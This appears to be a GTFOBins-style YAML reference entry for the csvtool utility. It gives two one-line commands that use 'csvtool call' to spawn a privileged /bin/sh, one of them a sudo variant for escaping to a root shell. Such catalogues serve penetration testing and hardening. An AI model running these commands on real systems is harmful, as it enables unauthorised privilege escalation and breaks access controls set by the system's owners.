 ```yaml
---
functions:
  shell:
    - code: csvtool call '/bin/sh -p;false' /etc/passwd
  sudo:
    - code: sudo csvtool call '/bin/sh -p;false' /etc/passwd
---
```

